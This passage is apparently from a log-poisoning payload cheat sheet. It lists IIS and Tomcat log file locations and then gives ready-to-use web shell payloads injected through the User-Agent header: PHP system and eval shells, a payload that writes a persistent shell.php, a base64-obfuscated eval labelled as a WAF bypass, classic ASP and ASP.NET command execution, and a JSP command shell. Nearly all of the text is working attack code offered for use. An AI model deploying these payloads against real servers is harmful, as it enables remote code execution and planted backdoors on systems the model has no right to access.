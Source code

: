 ### IIS

```
C:\inetpub\logs\LogFiles\W3SVC1\
%SystemDrive%\inetpub\logs\LogFiles\
```

### Tomcat

```
/var/log/tomcat*/catalina.out
/usr/local/tomcat/logs/catalina.out
C:/Program Files/Apache Software Foundation/Tomcat/logs/catalina.out
```

## Basic Log Poisoning Payloads by Language

### PHP

```
# Basic PHP code execution via User-Agent
User-Agent: <?php system($_GET['cmd']); ?>

# Eval execution
User-Agent: <?php eval($_REQUEST['cmd']); ?>

# File write and execution
User-Agent: <?php file_put_contents('/var/www/html/shell.php', '<?php system($_GET[\'cmd\']); ?>'); ?>

# Base64 encoded payload (bypass WAF)
User-Agent: <?php eval(base64_decode('c3lzdGVtKCRfR0VUWydjbWQnXSk7')); ?>
```

### ASP/ASP.NET

```
# Classic ASP execution
User-Agent: <% Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.ReadAll()) %>

# ASP.NET execution
User-Agent: <% System.Diagnostics.Process.Start(Request.QueryString["cmd"]); %>
```

### JSP

```
# JSP execution
User-Agent: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

# More comprehensive JSP shell
User-Agent: <% if(request.getParameter("cmd")!=null){ Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); } } %>
```
